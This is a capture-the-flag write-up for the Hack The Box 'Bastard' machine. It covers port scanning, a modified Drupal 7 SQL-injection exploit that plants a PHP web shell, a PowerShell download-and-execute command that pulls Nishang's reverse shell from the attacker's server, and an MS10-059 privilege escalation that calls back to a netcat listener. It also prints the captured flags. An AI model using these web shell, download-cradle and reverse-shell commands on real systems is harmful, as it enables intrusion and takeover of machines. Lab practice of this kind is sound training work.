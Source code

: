 ![Image](/assets/Bastard.png)

Bastard is a box that is initially frustrating. This machine tests ones ability to enumerate thoroughly AND simply, transfer files in different ways, and doctor downloaded exploits to suit one's needs. 

### Scan
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 07:24 EDT
Nmap scan report for 10.10.10.9
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.68 seconds



---------------------Starting Nmap Basic Scan---------------------
                                                                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 07:24 EDT
Nmap scan report for 10.10.10.9
Host is up (0.12s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.53 seconds

```

### Enumeration

![Image](/assets/Screenshot 2024-09-14 at 12.39.22 PM.png)

We are greeted with a login portal when we visit the sight. Trying a few common credentials yield no access, so I opted to look through the `feroxbuster` scan I had running in the background. Most of the directories are off limits with a `403 Error`, meaning that we'll need to find something else.

Doing research, I looked at my `nmap` scan again to see version numbers of the services running. This is a part of the simple, yet thorough enumeration that we need to "make haste slowly." `Microsoft IIS 7.5` didn't yield much compared to what I found for `Drupal 7`, which yielded a RCE vulnerability.

![Image](/assets/Screenshot 2024-09-14 at 12.45.19 PM.png)

We can cross check this with `exploit-db 41564` or `searchsploit Drupal` and sure enough, we've got a script here that uses SQL injection to get the contests of the cache for the current endpoint along with the admin hash and credentials. Then, the script alters the cache to allow file writing, and follows this up by posting a POC at the designated endpoint. 

![Image](/assets/Screenshot 2024-09-14 at 12.51.49 PM.png)
![Image](/assets/Screenshot 2024-09-14 at 1.14.43 PM.png)

We know the URL, and we know that we'll need to use a PHP one-liner to get our remote code execution ability, but we need to figure our where the API endpoint is. `/rest_endpoint` is not available on the box, but `/rest`is! There are two ways to figure this out. Trial and error is how I came upon it, but using a directory busting tool works as well, providing you give it the time!

We want to use the POC instead to write a PHP one-liner that grants us RCE on the machine. So, we can substitute with this in order to make sure our uploaded file works:

`'<?php system($_REQUEST["cmd"]); ?>'`

Also, don't forget to alter the endpoint! The completed script should look like this, with emphasis on the url, endpath, and file:

![Image](/assets/Screenshot 2024-09-14 at 1.31.26 PM.png)

### Initial Access

Before we run our exploit, we also need to make sure that we've installed php-curl on our machine. We can use `apt-get install php-curl`. Now, we can run our exploit with `php 41564.php`

![Image](/assets/Screenshot 2024-09-14 at 1.32.28 PM.png)

We get an endpoint that tells us where the file's been written. When we visit, make sure to bring up the request in Burp, where we can edit our requests in real time. Append your malicious file name with `?cmd=systeminfo`, and we can see that our attempt for RCE has worked!

![Image](/assets/Screenshot 2024-09-14 at 1.38.02 PM.png)

One thing to note... We've got two files noted `session.json` and `user.json`. These provide cookie information and a username and hashed password for the administrator account. We could take these and try to gain access this way, but we've already got a shell... Maybe another day.

Ok, so now, we can call for a real shell, and the easiest way to do this is with Nishang's Invoke-PowerShellTcp, as we're dealing with an x64 Windows Machine and we want as much functionality as possible. Let's edit the file to include the correct parameters for our future listener.

Add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.4.3 -Port 4444` to the very end of the file. You can copy in the `vim` editor with `yy` and paste with `d`. 

Once we have our file ready, we need to serve it with a Python server from the same directory that it lies, and set up a wrapped listener:

`python3 -m http.server 8000`
`rlwrap nc -nlvp 4444`

Let's get back and use Burp to create our request. MAKE SURE TO URL ENCODE. Additionally, make sure that the spelling is exact when posting the file and path - capitalization and all :

`powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

![Image](/assets/Screenshot 2024-09-14 at 2.44.26 PM.png)

We should get access on our listener.

![Image](/assets/Screenshot 2024-09-14 at 2.44.45 PM.png)

We can navigate to `/Users/dimitris/Desktop` in order to find our user flag.

`USER:d187f6b9f9bc6b5df88b7f607e720776`

### Privilege Escalation

In order to escalate, we can check things out with `ps`  and `systeminfo`. We can also serve an enumeration script from our Kali machine. I like `winpeas` and `winenum`, but for this case, `sherlock` was the best option, as it gave us a list of possible CVE's, which are very common on these lab machines.

Find Sherlock with `locate Sherlock.ps1` and bring it to the working directory. Serve the file with our SMB server this time, and download on the victim machine. Locate `"smbserver.py` first (usually in Impacket) and move it to working directory before running these commands:

`KALI - python3 smbserver.py share /home/li0t/Desktop/HTB/Bastard`
`VICTIM - copy \\10.10.14.3\share\Sherlock.ps1`

Now, no matter how hard I tried, I couldn't get permission on the victim machine to download files and run them, so I took a page from Rana Khalil and exported `systeminfo` into the `windows-exploit-suggester` on my Kali machine. To do this, we need to update our tool and query the database. First, copy the script to `pwd`:

`./windows-exploit-suggester.py --update`
`./windows-exploit-suggester.py -d 2024-09-14-mssb.xls -i sysinf.txt`

Now, we can get MS tags for exploits, and run through them to see if any work. 

![Image](/assets/Screenshot 2024-09-14 at 3.22.52 PM.png)

We'll go with this one, MS10-059, as I've tried unsuccessfully with Kernel exploits here before. There is a compiled version that can be found on github [here](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) Once this is in our working directory, or the same place as our SMB server, we can share between the systems. I think it's important to note, I've only gotten this machine rooted with this .exe file used in this context. Even my privesc scripts of the same type don't register, and I dunno why...

Once we're ready, set up a listener 

`rlwrap nc -nlvp 4445`

Then, go onto the compromised machine and use:

`\\10.10.14.3\share\FILE.exe 10.10.14.3 4445`

![Image](/assets/Screenshot 2024-09-14 at 3.38.47 PM.png)

Cooking.

`ROOT:b3056a76131b8c975a906cff1283ba05`

#windows #manual #medium